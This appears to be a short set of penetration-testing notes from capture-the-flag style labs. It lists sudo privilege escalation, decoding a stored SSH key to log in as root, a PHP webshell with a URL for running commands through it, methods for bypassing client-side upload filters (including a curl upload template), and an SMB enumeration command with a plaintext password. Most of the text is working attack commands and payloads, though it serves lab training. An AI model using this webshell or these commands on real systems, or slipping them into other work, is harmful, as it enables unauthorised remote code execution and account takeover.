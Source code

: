 ## OTHER 

# switch to sudo user via higher privs (sudo -ll)
sudo -u toby bash -p

# cat the contents of a base64 ssh private key into a file and use file to ssh into the user with key 
cat key.b64 | base64 -d > key; chmod 600 key; ssh -i key root@localhost

# upload php webshell.php to run commands via upload form
<?php
    echo system($_GET["cmd"]);
?>

# run commands via url 
webshell.php?cmd=id;whoami;ls

# There are four easy ways to bypass your average client-side file upload filter:

1. Turn off Javascript in your browser -- this will work provided the site doesn't require Javascript in order to provide basic functionality. If turning off Javascript completely will prevent the site from working at all then one of the other methods would be more desirable; otherwise, this can be an effective way of completely bypassing the client-side filter.
  
2. Intercept and modify the incoming page. Using Burpsuite, we can intercept the incoming web page and strip out the Javascript filter before it has a chance to run. The process for this will be covered below.

3. Intercept and modify the file upload. Where the previous method works before the webpage is loaded, this method allows the web page to load as normal, but intercepts the file upload after it's already passed (and been accepted by the filter). Again, we will cover the process for using this method in the course of the task.
   
4. Send the file directly to the upload point. Why use the webpage with the filter, when you can send the file directly using a tool like curl? Posting the data directly to the page which contains the code for handling the file upload is another effective method for completely bypassing a client side filter. We will not be covering this method in any real depth in this tutorial, however, the syntax for such a command would look something like this: curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>. To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.


# smbmap enum with creds  
smbmap -H windcorp.thm -d windcopr.thm -u lilyle -p ChangeMe#1234
